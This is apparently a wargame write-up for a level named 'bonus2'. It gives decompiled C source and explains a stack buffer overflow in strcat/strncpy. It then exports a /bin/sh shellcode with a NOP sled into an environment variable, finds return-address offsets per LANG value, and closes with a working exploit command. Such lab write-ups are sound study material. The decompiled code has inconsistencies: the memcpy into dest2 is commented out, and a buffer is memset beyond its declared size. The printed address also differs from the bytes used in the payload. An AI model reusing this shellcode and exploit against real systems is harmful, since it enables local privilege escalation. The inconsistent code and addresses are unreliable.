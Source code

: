 # Bonus2

## Code

```
int language = 0;

void    greetuser(char *src)
{
  char dest[64];

  switch ( language )
  {
    case 1:
      strcpy(dest, "Hyvää päivää ");
      break;
    case 2:
      strcpy(dest, "Goedemiddag! ");
      break;
    case 0:
      strcpy(dest, "Hello ");
      break;
  }
  strcat(dest, src);
  puts(dest);
}

int main(int argc, char *argv[])
{
  char dest2[76];
  char *env_LANG = NULL;
  char dest[64];

  if ( argc != 3 )
    return 1;
  memset(dest, 0, 76);
  strncpy(dest, argv[1], 40);
  strncpy(dest + 40, argv[2], 32);
  env_LANG = getenv("LANG");
  if ( env_LANG )
  {
    if ( !memcmp(env_LANG, "fi", 2) )
    {
      language = 1;
    }
    else if ( !memcmp(env_LANG, "nl", 2) )
    {
      language = 2;
    }
  }
  //memcpy(dest2, dest, sizeof(dest2));
  greetuser(dest2);
  return (0);
}
```

## Explanation


- This program takes 2 arguments and greets the user saying : "Hello <argv[1]". If argv[1] is 
    more than 40 bytes long, the program will concatenate argv[2] as an extension of the name

- Again, the strncpy() calls are not protected, so if both argv[1] is over 40 bytes and argv[2]
    is more than 32 bytes, the final string will not be null terminated, which means we can
    overflow the buffer to overwrite the return address.

- So we created an env variable just like in bonus0 to put our shellcode:

    export EXPLOIT=`python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`

- In the same way, we reused the same short program to print the address of the string so we can
    use it to replace the return address :

    #include <stdio.h>
    #include <stdlib.h>

    int main()
    {
        printf("%p\n", getenv("EXPLOIT"));
        return 0;
    }

- This program gave us the address 0xbffff8ef

- Using the same technique as bonus0, we managed to find the offset of the return address by
    using gdb and giving the program strings like "ABCDEFGHIJKLMNOP.......", which allowed
    us to see that if we overflow the first argument, we could reach the return address
    to overwrite at the 31st-34th bytes of the second argument, so we first tried this:

    ./bonus2 "$(python -c "print 'A' * 45")" "$(python -c "print 'A' * 30 + '\xf3\xf8\xff\xbf'")"

- Which created a very nice segfault : Since the strncpy of the second arg is on 32 bytes,
    we only copied the first 2 bytes of our env variable's address without changing the
    other 2 bytes that followed, which made the program try to  jump to a bad address.

- Looking closer at the decompiled version of the program, we saw that it called getenv()
    to try to get a LANG variable, and display its "Hello" message in different languages,
    namely finnish or dutch.

- So we ran gdb again after having done :
    export LANG=nl    or    export LANG=fi

- We noticed that the offset of the return address in the second string was smaller
    with the program set to another language: 19 for "fi" and 24 for "nl". So both leave
    us enough space to put our four bytes of address before the 32 bytes threshold.

- All that was left to do was do adapt our payload to this offset and run it again, for
    instance with the case LANG=fi :

## Exploit
```
$    ./bonus2 "$(python -c "print 'A' * 45")" "$(python -c "print 'A' * 18 + '\xf3\xf8\xff\xbf'")" 
```